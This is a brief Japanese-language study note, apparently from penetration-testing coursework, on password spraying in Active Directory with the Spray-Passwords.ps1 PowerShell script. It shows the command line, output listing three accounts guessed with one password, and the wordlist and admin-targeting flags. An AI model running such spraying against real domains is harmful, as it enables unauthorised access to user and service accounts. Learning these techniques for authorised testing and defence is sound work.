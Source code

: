 * Spray-Passwords.ps1を利用する方法

  https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1

  ```
  PS C:\Tools\active_directory> .\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
  WARNING: also targeting admin accounts.
  Performing brute force - press [q] to stop the process and print results...
  Guessed password for user: 'adam' = 'Qwerty09!'
  Guessed password for user: 'iis_service' = 'Qwerty09!'
  Guessed password for user: 'sql_service' = 'Qwerty09!'
  Users guessed are:
   'adam' with password: 'Qwerty09!'
   'iis_service' with password: 'Qwerty09!'
   'sql_service' with password: 'Qwerty09!'
  PS C:\Tools\active_directory>
  ```

  * -File：ワードリストファイル
  * -Adminフラグ：管理者アカウントのテスト
